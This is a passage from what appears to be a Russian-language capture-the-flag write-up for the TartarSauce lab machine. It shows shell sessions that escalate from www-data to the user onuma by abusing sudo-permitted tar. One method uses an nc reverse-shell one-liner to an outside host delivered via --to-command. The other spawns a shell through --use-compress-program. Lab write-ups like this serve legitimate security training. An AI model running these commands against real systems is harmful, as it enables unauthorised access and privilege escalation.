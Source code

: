 ```text
www-data@TartarSauce:/dev/shm$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f' > .sh3ll.sh
www-data@TartarSauce:/dev/shm$ tar -cvf .sh3ll.tar .sh3ll.sh
.sh3ll.sh

www-data@TartarSauce:/dev/shm$ sudo -u onuma /bin/tar -xvf .sh3ll.tar --to-command /bin/bash
.sh3ll.sh
rm: cannot remove '/tmp/f': No such file or directory

```

```text
root@kali:~# nc -nlvvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.88.
Ncat: Connection from 10.10.10.88:51608.

$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

### user.txt
```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```

## tar --use-compress-program
Флагом `--use-compress-program` (или `-I`) можно явно задать другую программу для сжатия данных, если пользователь не удовлетворен тем, что ему предлагает по умолчанию tar.

Мы же злостно проэксплуатируем эту опцию, подсунув tar'у вместо утилиты для архивирования обычный `/bin/sh` с волшебными редиректами для входных и выходных данных, что дарует нам пользовательский шелл:
```text
www-data@TartarSauce:/dev/shm$ sudo -u onuma /bin/tar -xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
$ whoami
onuma

$ id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
```

```text
$ cat /home/onuma/user.txt
b2d6ec45????????????????????????
```
